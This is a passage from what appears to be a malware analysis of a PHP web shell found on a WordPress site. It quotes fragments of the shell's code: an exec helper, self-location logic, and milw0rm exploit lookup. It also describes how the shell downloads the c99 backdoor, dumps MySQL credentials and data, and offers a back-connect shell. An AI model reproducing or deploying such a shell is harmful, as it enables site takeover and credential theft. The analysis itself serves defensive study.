 ``` php The exec core
      @pclose($f); 
    } else { $res = "Ex() Disabled!"; } 
  } 
  return $res; 
} 
function which($pr) { 
  $path = ex("which $pr"); 
  if(!empty($path)) { return $path; } else { return $pr; } 
} 
//End of w4ck1ng Shell 

```

Than shell tries to hide itself saving on a random address used later on.

``` php
//Start Enumerate function 
$hostname_x = php_uname(n); 
$itshome = getcwd(); 
if (!$win) { 
  $itshome = str_replace("/home/","~",$itshome); 
  $itshome = str_replace("/public_html","/yx29sh.php",$itshome); 
} 
else { $itshome = ""; } 
$enumerate = "http://".$hostname_x."/".$itshome.""; 
//End Enumerate function 
```

The shell also tried to enumerate all the PHP vulnerabilities specific for interpreter running on the target using milw0rm:

``` php
//milw0rm search 
$Lversion = php_uname(r); 
$OSV = php_uname(s); 
if(eregi("Linux",$OSV)) { 
  $Lversion=substr($Lversion,0,6); 
  $millink="http://milw0rm.com/search.php?dong=Linux Kernel ".$Lversion; 
} else { 
  $Lversion=substr($Lversion,0,3); 
  $millink ="http://milw0rm.com/search.php?dong=".$OSV." ".$Lversion; 
} 
//End of milw0rm search 
``` 

The idea, looking at the remaining part of the source code is that apart for
presenting a web shell to authenticated attackers, this worm tries to download
and install [c99 PHP backdoor](http://www.securelist.com/en/descriptions/old188613).

A particular note is for the code trying to extract connection parameter from
PHP ini files and dumping the mysql database as you may expect in a wordpress
typical scenario.

The remaining 2000 lines of code are a sophysticate control panel for the
attack victim. The attacker have a full featured back-connection shell and
using web page he can retrieve sql dumps, passwords and Apache configuration.
